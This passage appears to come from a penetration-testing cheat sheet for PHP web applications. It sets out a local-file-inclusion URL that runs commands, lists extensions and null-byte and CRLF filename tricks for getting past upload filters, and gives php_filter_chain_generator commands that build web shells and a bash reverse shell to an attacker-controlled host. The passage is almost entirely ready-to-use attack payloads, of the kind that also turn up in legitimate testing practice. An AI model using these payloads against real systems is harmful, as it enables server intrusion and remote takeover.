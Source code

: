 ```c
http://<RHOST>/index.php?page=uploads/<FILE>.pdf%00&cmd=whoami
```

#### PHP Upload Filter Bypasses

```c
.sh
.cgi
.inc
.txt
.pht
.phtml
.phP
.Php
.php3
.php4
.php5
.php7
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.jpeg
```

```c
<FILE>.php%20
<FILE>.php%0d%0a.jpg
<FILE>.php%0a
<FILE>.php.jpg
<FILE>.php%00.gif
<FILE>.php\x00.gif
<FILE>.php%00.png
<FILE>.php\x00.png
<FILE>.php%00.jpg
<FILE>.php\x00.jpg
mv <FILE>.jpg <FILE>.php\x00.jpg
```

#### PHP Filter Chain Generator

> https://github.com/synacktiv/php_filter_chain_generator

```c
python3 php_filter_chain_generator.py --chain '<?= exec($_GET[0]); ?>'
python3 php_filter_chain_generator.py --chain "<?php echo shell_exec(id); ?>"
python3 php_filter_chain_generator.py --chain """<?php echo shell_exec(id); ?>"""
python3 php_filter_chain_generator.py --chain """"<?php exec(""/bin/bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'"");?>""""
python3 php_filter_chain_generator.py --chain """"<?php exec(""/bin/bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'"");?>""""
```

